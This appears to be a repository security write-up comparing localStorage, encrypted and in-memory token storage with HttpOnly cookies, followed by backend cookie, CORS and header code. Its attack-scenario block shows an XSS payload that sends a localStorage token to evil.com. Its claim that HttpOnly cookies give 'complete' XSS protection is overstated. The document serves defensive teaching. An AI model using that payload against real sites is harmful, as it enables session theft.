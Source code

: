 # Token Storage Security Analysis & Solutions

## 🚨 CRITICAL SECURITY ISSUE: Client-Side Token Storage

### The Problem
**Current Implementation Vulnerabilities:**

1. **❌ localStorage Token Storage**
   - Accessible via JavaScript (`localStorage.getItem('token')`)
   - Vulnerable to XSS attacks
   - Persists until manually cleared
   - Can be stolen by malicious scripts

2. **❌ Client-Side Encryption is Ineffective**
   - Encryption key is in frontend code (viewable by anyone)
   - Provides false sense of security
   - Still vulnerable to XSS if JavaScript can decrypt

3. **❌ Memory-Only Storage Issues**
   - Lost on page refresh (poor UX)
   - Still accessible via JavaScript while in memory
   - Not a real security improvement

### Attack Scenarios

```javascript
// XSS Attack Example - These work with current implementation:
document.body.innerHTML += '<img src="x" onerror="fetch(\'https://evil.com/steal?token=\' + localStorage.getItem(\'token\'))">';

// Or if using encrypted storage:
console.log(secureStorage.getItem('token')); // Still accessible!
```

## ✅ SECURE SOLUTION: HttpOnly Cookies

### Implementation Overview

#### Frontend Changes (Completed)
- ✅ Created `SecureAuthService` - No client-side token handling
- ✅ Created `SecureAuthContext` - State management without tokens
- ✅ Updated `httpClient` - Always send credentials

#### Backend Requirements (For Your Backend Team)

```javascript
// 1. LOGIN ENDPOINT RESPONSE
app.post('/auth/login', async (req, res) => {
    // ... validate credentials ...
    
    const token = generateJWT(user);
    
    // Set HttpOnly cookie (SECURE!)
    res.cookie('token', token, {
        httpOnly: true,          // ✅ JavaScript cannot access
        secure: true,            // ✅ HTTPS only
        sameSite: 'strict',      // ✅ CSRF protection
        maxAge: 24 * 60 * 60 * 1000, // 24 hours
        path: '/'
    });
    
    res.json({ success: true, user: userData });
});

// 2. PROTECTED ENDPOINTS
app.use('/api/protected', (req, res, next) => {
    const token = req.cookies.token; // Read from cookie
    if (!token || !verifyJWT(token)) {
        return res.status(401).json({ error: 'Unauthorized' });
    }
    next();
});

// 3. LOGOUT ENDPOINT
app.post('/auth/logout', (req, res) => {
    res.cookie('token', '', {
        httpOnly: true,
        secure: true,
        sameSite: 'strict',
        maxAge: 0  // ✅ Clear cookie
    });
    res.json({ success: true });
});

// 4. CORS CONFIGURATION
app.use(cors({
    origin: 'https://your-frontend-domain.com', // ✅ Specific origin
    credentials: true, // ✅ Allow cookies
}));
```

### Security Comparison

| Method | XSS Protection | CSRF Protection | Persistence | Complexity |
|--------|----------------|-----------------|-------------|------------|
| localStorage | ❌ None | ❌ None | ✅ Yes | 🟢 Low |
| Encrypted localStorage | ❌ None | ❌ None | ✅ Yes | 🟡 Medium |
| Memory Storage | ⚠️ Limited | ❌ None | ❌ No | 🟡 Medium |
| **HttpOnly Cookies** | ✅ **Complete** | ✅ **Yes** | ✅ **Yes** | 🟢 **Low** |

### Migration Strategy

#### Phase 1: Prepare Frontend (Completed ✅)
- ✅ Implemented secure service layer
- ✅ Created HttpOnly-compatible context
- ✅ Updated HTTP client for cookie support

#### Phase 2: Backend Implementation (Required)
- 🔄 Update login endpoint to set HttpOnly cookies
- 🔄 Modify all protected routes to read from cookies
- 🔄 Configure CORS for credentials
- 🔄 Add logout endpoint to clear cookies

#### Phase 3: Migration & Testing
- 🔄 Test authentication flow
- 🔄 Verify XSS protection
- 🔄 Confirm CSRF protection
- 🔄 Remove old token storage code

### Additional Security Measures

#### 1. CSRF Token Pattern (Optional)
```javascript
// Double-submit cookie pattern
res.cookie('csrf-token', csrfToken, { sameSite: 'strict' });
res.setHeader('X-CSRF-Token', csrfToken);
```

#### 2. Token Refresh Mechanism
```javascript
// Separate refresh token cookie
res.cookie('refreshToken', refreshToken, {
    httpOnly: true,
    secure: true,
    sameSite: 'strict',
    maxAge: 7 * 24 * 60 * 60 * 1000, // 7 days
    path: '/auth/refresh' // Restricted path
});
```

#### 3. Session Security Headers
```javascript
app.use((req, res, next) => {
    res.setHeader('X-Content-Type-Options', 'nosniff');
    res.setHeader('X-Frame-Options', 'DENY');
    res.setHeader('X-XSS-Protection', '1; mode=block');
    next();
});
```

## 🎯 Summary

**The only truly secure solution for authentication tokens is HttpOnly cookies.** 

- ❌ Client-side encryption is security theater
- ❌ localStorage/sessionStorage are inherently insecure
- ✅ HttpOnly cookies provide real XSS protection
- ✅ Industry standard for secure authentication

The frontend code is now ready for secure authentication. The backend implementation is the critical missing piece for true security.
